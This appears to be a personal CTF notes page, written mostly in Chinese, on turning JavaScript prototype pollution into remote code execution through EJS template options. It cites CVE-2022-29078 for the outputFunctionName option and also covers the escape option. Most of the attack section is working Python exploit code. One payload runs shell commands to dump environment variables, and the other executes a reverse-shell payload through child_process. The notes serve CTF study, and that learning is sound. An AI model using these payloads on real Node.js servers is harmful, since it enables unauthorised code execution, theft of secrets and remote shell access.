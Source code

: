 tags:: CTF/JS/原型链污染, CTF/NodeJS/EJS, CTF/NodeJS

- > 原型链污染+EJS=RCE
- # 原理
	- ejs在编译模板时会将选项中的某些项直接拼接到编译结果中执行，而选项是存储在一个对象中的，我们只需要污染这些属性即可
	- 即使没有原型链污染也可以在express中的`res.render('xxx', {options...})`处直接传入这些选项进行RCE
- # outputFunctionName
	- CVE-2022-29078
	- ```python
	  r = base_post(url, headers = headers, json = {
	      "__proto__": {
	          "outputFunctionName": "a=1;return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"sleep 3; env\"');//"
	      }
	  })
	  print(r.text)
	  ```
- # escape
	- 参考：
		- 我是在做[这题](((654dda41-c3ee-4d76-b945-69080bd6539a)))的时候挖出来的。。。
		- [别人的文章](https://www.inhann.top/2023/03/26/ejs/)
	- 原理和`outputFunctionName`是一样的，payload都会被拼接到编译产物中
	- 貌似也可以用`escapeFunction`?
	- 让client为真，并传入payload即可
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString114() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  r = base_post(
		      url + "/create",
		      json={ # 这里的对象需要被传入到proto中
		          "name": "global",
		          "settings": {
		              "view options": {
		                  "client": "1",
		                  "escape": ejs_escape,
		              }
		          }
		      },
		  )
		  print(r.text)
		  ```